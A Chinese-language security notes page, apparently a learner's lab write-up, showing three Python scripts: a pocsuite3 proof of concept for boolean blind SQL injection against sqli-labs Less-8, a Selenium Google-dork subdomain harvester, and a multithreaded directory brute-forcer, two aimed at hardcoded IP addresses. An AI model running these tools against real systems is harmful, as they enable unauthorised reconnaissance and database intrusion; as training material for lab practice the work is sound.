


### POC编写

```py
# 导入必要的模块
from pocsuite3.api import Output, POCBase, register_poc, requests


# 创建一个BooleanBindPOC类，继承自POCBase
class BooleanBindPOC(POCBase):
    vulID = 'sqli-bool'  # 漏洞ID，可根据实际需求修改
    version = 'sqli-bool'  # POC版本号，可修改
    author = 'tomato'  # 作者，可修改
    vulDate = '2024-10-11'  # 漏洞发现日期，可修改
    createDate = '2024-10-11'  # POC创建日期，可修改
    updateDate = '2024-10-11'  # POC更新日期，可修改
    name = 'sqli-labs-master-bool'  # POC名称，可修改
    appPowerLink = 'http://8.137.60.154:8082/Less-8/'  # 应用链接，可修改为目标系统的链接
    appName = 'sqli-labs-master'  # 应用名称，可修改
    appVersion = '1.0'  # 应用版本，可修改
    vulType = 'SQL Injection'  # 漏洞类型，可修改为其他漏洞类型
    desc = 'boolean bind injection'  # 漏洞描述，可修改
    samples = ['http://8.137.60.154:8082/Less-8/?id=1']  # 示例目标URL，可修改为实际的测试URL
    install_requires = []  # 依赖模块，如果有其他依赖可修改添加
    pocDesc = '进行Less-8测试'  # POC描述，可修改

    # 验证函数，验证目标是否存在漏洞
    def _verify(self):  # 函数名称可以修改，但需保持与类中的调用一致
        payload = input("请输入攻击载荷:")  # SQL注入payload，可以修改为具体的注入语句
        result = {}  # 结果字典
        target = self.url  # 目标URL，系统自动获取，但可以进一步处理或修改

        # 发送HTTP请求，payload可以通过字符串拼接或其他方式动态生成
        req = requests.get(target + payload)
        res = req.text

        # 这里可以修改判断条件，依据目标系统返回的不同内容判定漏洞是否存在
        word = input("请输入回显关键字:")
        if word not in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = target  # 输出的目标URL
            result['VerifyInfo']['payload'] = payload  # 输出的payload

            # 这里可以修改返回的解析函数或处理逻辑
            return self.parse_output(result)

    # 攻击函数，通常攻击就是验证的过程，也可以修改为不同的攻击方式
    def _attack(self):  # 函数名称可以修改
        return self._verify()  # 可以修改为其他攻击函数或逻辑

    # 解析输出的函数，可以根据需求修改输出逻辑和格式
    def parse_output(self, result):  # 函数名称及内部逻辑可以修改
        output = Output(self)

        # 输出结果的逻辑，可以根据需求修改输出内容和格式
        if result:
            output.success(result)
        else:
            output.fail('不存在sql注入!')

        # 返回输出对象，可以修改为其他输出方式
        return output


# 注册POC，系统会根据注册的POC执行相应操作
register_poc(BooleanBindPOC)  # 这里可以修改为其他类名
```

#### 执行效果




****

### 子域名挖掘

```py
import time
from selenium import webdriver as wd
from selenium.webdriver.chrome.service import Service
from webdriver_manager.chrome import ChromeDriverManager
from bs4 import BeautifulSoup
import re

domain = input("请输入想收集域名：")
num = int(input("请输入想收集的页数："))

# TODO:设置驱动
driver = wd.Chrome(service=Service(ChromeDriverManager().install()))

# TODO:使用集合来存储去重后的子域名
collected_subdomains = set()

for page in range(1, num + 1):  
    print(f"正在爬取第 {page} 页...")

    url = f'https://www.google.com/search?q=site:{domain}&sca_esv=8914734fd05b3950&sxsrf=ADLYWIJJxSEB3PbwCq7XWFtmnght1PbsqA:1728631039643&ei=_9AIZ531JsuXvr0P98mZyQc&start={(page - 1) * 10}&sa=N&sstk=AagrsujJ4Dmib6JBcxZkd_We9NSVXt1JA6JYtCuSocsJcs3LORX5Uq7DjB0CECsePc9k9en5o3v9tvQVVD5BOYzwZjC_TaWYjzRvcXC3U0t9MzPZffrR71TdflMmVKeux9T6qZBqJ8wKVQvA-6JZW62bgUcsiAddpBVwdzFu5JPyDFByvLgcmTimdVGNDXbAg3_9C1TR6ObD47tQQc-cU_2rqygXO7xEbv5rN5gEgcPXRqCANMS1jkPq0HBgAUI&ved=2ahUKEwjd8MK45IWJAxXLi68BHfdkJnk40gEQ8NMDegQIBxAX&biw=1392&bih=774&dpr=2'
    driver.get(url)
    time.sleep(2)

    # TODO:检查是否出现人机验证
    if "人机验证" in driver.page_source or "captcha" in driver.page_source:
        print("检测到人机验证，请完成验证后按回车继续...")
        input()  # TODO:暂停程序，等待验证后继续

    # TODO:检查是否有“找不到和您查询的内容”提示
    if "找不到和您查询的" in driver.page_source:
        print("找不到更多内容，挖掘结束。")
        break  # TODO:结束循环，停止挖掘

    data = driver.page_source
    soup = BeautifulSoup(data, 'html.parser')

    # TODO:提取所有<a href=''>标签
    a_tags = soup.find_all('a', href=True)

    # TODO:使用正则表达式提取以 'https://' 开头，并且包含目标域名的子域名链接
    for a_tag in a_tags:
        href = a_tag['href']
        # TODO:只提取子域名，不包括 Google 的 "/url?q=" 跳转链接
        clean_link = re.search(r'(https?://[a-zA-Z0-9.-]+\.' + re.escape(domain) + r'[^\s]*)', href)
        if clean_link:
            real_link = clean_link.group(1)
            # TODO:提取子域名部分去除路径，只保留协议+子域名
            subdomain = re.match(r'https?://([a-zA-Z0-9.-]+\.' + re.escape(domain) + r')', real_link).group(1)
            # TODO:比对子域名去重
            if subdomain not in collected_subdomains:
                collected_subdomains.add(subdomain)
                print(f"提取到的子域名链接: {real_link.split('/')[2]}")  # TODO:输出去掉路径的域名
                with open('domain.txt', 'a') as f:
                    f.write(real_link.split('/')[2] + '\n')
```

#### 执行效果


****

### 目录爆破

```py
import requests
import concurrent.futures

# 定义颜色
GREEN = '\033[92m'  # 绿色
RED = '\033[91m'  # 红色
YELLOW = '\033[93m'  # 黄色
RESET = '\033[0m'  # 重置颜色

base_url = 'http://113.45.142.235:8090'

# 允许用户输入想要显示的状态码类型，多个状态码用逗号分隔
status_codes_input = input("请输入你想显示的状态码 (用逗号分隔，例如: 200,404,500): ")
status_codes_to_show = [int(code.strip()) for code in status_codes_input.split(',')]

# 读取字典文件
with open('dir.txt', 'r', encoding='utf-8') as f:
    directories = f.readlines()

# 使用 ThreadPoolExecutor 进行多线程处理
with concurrent.futures.ThreadPoolExecutor(max_workers=50) as executor:
    # 提交任务到线程池
    futures = {executor.submit(requests.get, base_url + directory.strip(), timeout=5): directory for directory in
               directories}

    # 使用 as_completed 逐个处理完成的任务，避免等待所有任务完成
    for future in concurrent.futures.as_completed(futures):
        directory = futures[future]
        url = base_url + directory.strip()

        response = future.result()
        status_code = response.status_code

        # 根据用户输入的状态码筛选显示
        if status_code in status_codes_to_show:
            # 根据状态码显示不同颜色
            if status_code == 200:
                print(f"{GREEN}[{status_code} OK] {url}{RESET}")
            elif status_code == 404:
                print(f"{RED}[{status_code} Not Found] {url}{RESET}")
            else:
                print(f"{YELLOW}[{status_code}] {url}{RESET}")  # 其他状态码
```

#### 执行效果



